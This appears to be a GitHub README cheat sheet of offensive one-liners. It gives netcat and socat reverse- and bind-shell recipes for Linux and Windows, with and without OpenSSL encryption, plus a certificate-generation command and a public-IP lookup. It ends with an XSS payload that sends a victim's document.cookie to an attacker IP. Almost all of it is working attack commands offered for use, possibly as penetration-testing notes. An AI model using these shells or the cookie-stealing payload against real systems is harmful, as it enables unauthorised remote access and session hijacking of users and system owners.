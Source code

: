 # tools

## Reverse Shells
Recipes for reverse shells from A to target B:

### Netcat
A: `nc -nlvp 4444`  
B (Linux): `nc -nv $A_IP $PORT -e /bin/bash`  
B (Windows): `nc -nv $A_IP $PORT -e cmd.exe`  

### Socat
#### Unencrypted
A: `socat -d -d TCP4-LISTEN:$PORT STDOUT`  
B (Linux): `socat TCP4:$A_IP:$PORT EXEC:/bin/bash`  
B (Windows): `socat TCP4:$A_IP:4433 EXEC:'cmd.exe',pipes`  

#### Encrypted
This requires you to create a self-signed SSL certificate.  

A: `socat -d -d OPENSSL-LISTEN:$PORT,cert=cert.pem,verify=0,fork STDOUT`  
B (Linux): `socat OPENSSL:$A_IP:$PORT,verify=0 EXEC:/bin/bash`  
B (Windows): `socat OPENSSL:$A_IP:$PORT,verify=0 EXEC:'cmd.exe',pipes`  

## Bind Shells
Recipes for bind shells from A to target B:  

### Netcat
A: `nc -nv $B_IP $PORT`  
B (Linux): `nc -nlvp $PORT -e /bin/bash`  
B (Windows): `nc -nlvp $PORT -e cmd.exe`  

### Socat
#### Unencrypted
A: `socat - TCP4:$B_IP:$PORT`  
B (Linux): `socat -d -d TCP4-LISTEN:$PORT EXEC:/bin/bash`  
B (Windows): `socat -d -d TCP4-LISTEN:$PORT EXEC:'cmd.exe',pipes`  

#### Encrypted
This requires you to create a self-signed SSL certificate.  

A: `socat - OPENSSL:$B_IP:$PORT,verify=0 STDOUT`  
B machine (Linux): `socat OPENSSL-LISTEN:$PORT,cert=cert.pem,verify=0,fork EXEC:/bin/bash`  
B machine (Windows): `socat OPENSSL-LISTEN:$PORT,cert=cert.pem,verify=0,fork EXEC:'cmd.exe',pipes`  

## Self-Signed SSL Certificate
`openssl req -newkey rsa:2048 -nodes -keyout cert.key -x509 -days 10 -out cert.crt && cat cert.key cert.crt > cert.pem`  

## Get Public IP
To get your public IP address on Linux run `dig +short myip.opendns.com @resolver1.opendns.com`  

## Steal Cookies
`<script>new Image().src="http://IP/random.jpg?output="+document.cookie;</script>`

